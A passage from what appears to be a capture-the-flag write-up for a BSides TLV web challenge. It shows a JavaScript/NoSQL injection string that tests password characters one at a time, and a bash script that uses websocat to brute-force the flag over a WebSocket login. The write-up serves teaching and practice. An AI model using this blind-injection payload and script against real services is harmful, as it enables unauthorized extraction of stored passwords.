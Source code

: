 ![3a5ebed8.png](/assets/images/posts/bsidestlv-web/3a5ebed8.png)

Building on the previous injection, we can tease out the flag with this test.

```
' || this.password[x] == 'y
```

Where `x` is the index into the flag and `y` is the character to test. Armed with this insight, I wrote a `bash` script to automate that.

<div class="filename"><span>nosocket.sh</span></div>

```bash
#!/bin/bash
SERVER=ws://challenges.bsidestlv.com:8000/login
EXPLOIT="{\"username\":\"admin\",\"password\":\"' || this.password["

for i in $(seq 0 40); do
  for c in $(seq 32 126); do
    STATUS=$(echo "${EXPLOIT}$i] == '$(printf \\$(printf %o $c))\"}"\
             | websocat $SERVER)
    if [ "$STATUS" == "Success!" ]; then
      printf \\$(printf "%o" $c)
    fi
  done
done

echo
```

The script is basically a wrapper around `websocat`, a command-line WebSocket [client](https://github.com/vi/websocat). We send the injection string in JSON over to the WebSocket server and wait for the response. If the response is `Success!`, the test character gets printed out.

